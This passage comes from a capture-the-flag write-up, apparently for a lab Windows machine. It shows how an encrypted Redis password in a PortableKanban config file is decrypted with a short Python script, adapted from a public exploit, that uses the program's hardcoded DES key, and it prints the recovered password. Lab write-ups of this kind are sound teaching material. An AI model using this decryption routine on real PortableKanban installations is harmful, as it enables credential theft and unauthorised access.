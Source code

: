Now we can grab the userflag on jason's desktop and start working towards SYSTEM

# System/Administrator

## PortableKanban

There are multiple ways to get system or administrator on the machine, I will cover two of them in this writeup.
Both of this ways start however with the PortableKanban directory in jason's `Downloads` folder. 

```php
 Directory of C:\Users\jason\Downloads

04/02/2021  08:00 AM    <DIR>          .
04/02/2021  08:00 AM    <DIR>          ..
03/31/2021  02:36 AM    <DIR>          node_modules
04/02/2021  08:21 PM    <DIR>          PortableKanban
               0 File(s)              0 bytes
```

Inside the folder there is a `PortableKanban.cfg` file which contains an encrypted Database password for the redis server.

```php
type PortableKanban.cfg
{"RoamingSettings":{"DataSource":"RedisServer","DbServer":"localhost","DbPort":6379,"DbEncPassword":"Odh7N3L9aVSeHQmgK/nj7RQL8MEYCUMb","DbServer2":"","DbPort2":6379,"DbEncPassword2":"","DbIndex":0,"DbSsl":false,"DbTimeout":10,"FlushChan
...[snip]...
```

To decrypt it we can modify the script from [exploid-db](https://www.exploit-db.com/exploits/49409) to only contain the decryption function and feed it our discovered encrypted password like this.

```py
import base64
from des import * #python3 -m pip install des

def decode():
        hash = "Odh7N3L9aVSeHQmgK/nj7RQL8MEYCUMb"
        hash = base64.b64decode(hash.encode('utf-8'))
        key = DesKey(b"7ly6UznJ")
        print(key.decrypt(hash,initial=b"XuVUm5fR",padding=True).decode('utf-8'))

decode()
```

Running it decrypts the password instantly.

```php
$ python decode.py 
kidvscat_yes_kidvscat
```

With this we can now connect to redis with `redis-cli`
